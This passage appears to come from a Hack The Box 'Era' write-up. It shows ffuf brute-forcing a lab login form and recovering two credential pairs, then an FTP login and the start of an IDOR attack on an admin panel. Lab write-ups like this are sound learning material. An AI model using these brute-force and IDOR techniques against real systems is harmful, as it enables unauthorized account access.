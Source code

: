 ```bash
________________________________________________

 :: Method           : POST
 :: URL              : http://file.era.htb/login.php
 :: Wordlist         : USER: /home/agonen/htb/Era/user_only.txt
 :: Wordlist         : PASS: /home/agonen/htb/Era/crack_password.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : submitted=true&username=USER&password=PASS
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 302
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 393ms]
    * PASS: america
    * USER: eric

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 893ms]
    * PASS: mustang
    * USER: yuri

:: Progress: [12/12] :: Job [1/1] :: 15 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

When we try to login to the `ftp` server, only `yuri` works for us:
```bash
ftp yuri@$target
```

![yuri login successful](image-5.png)

### Exploit IDOR to access admin panel

when we are logged on to some user, we can reset his security questions.
